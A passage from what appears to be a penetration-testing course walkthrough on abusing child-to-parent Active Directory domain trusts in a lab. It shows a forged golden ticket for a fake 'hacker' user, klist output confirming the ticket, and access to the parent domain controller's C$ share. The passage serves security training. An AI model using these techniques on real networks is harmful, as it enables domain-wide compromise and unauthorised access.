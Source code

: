 ```powershell-session
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```

We can confirm that the Kerberos ticket for the non-existent hacker user is residing in memory.

#### Confirming a Kerberos Ticket is in Memory Using klist

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb> klist

Current LogonId is 0:0xf6462

Cached Tickets: (1)

#0>     Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
        Server: krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL @ LOGISTICS.INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 3/28/2022 19:59:50 (local)
        End Time:   3/25/2032 19:59:50 (local)
        Renew Time: 3/25/2032 19:59:50 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

From here, it is possible to access any resources within the parent domain, and we could compromise the parent domain in several ways.

#### Listing the Entire C: Drive of the Domain Controller

  Attacking Domain Trusts - Child -> Parent Trusts - from Windows

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
 Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\academy-ea-dc01.inlanefreight.local\c$

09/15/2018  12:19 AM    <DIR>          PerfLogs
10/06/2021  01:50 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
11/19/2021  12:17 PM    <DIR>          Shares
10/06/2021  10:31 AM    <DIR>          Users
03/21/2022  12:18 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  18,080,178,176 bytes free
```

---
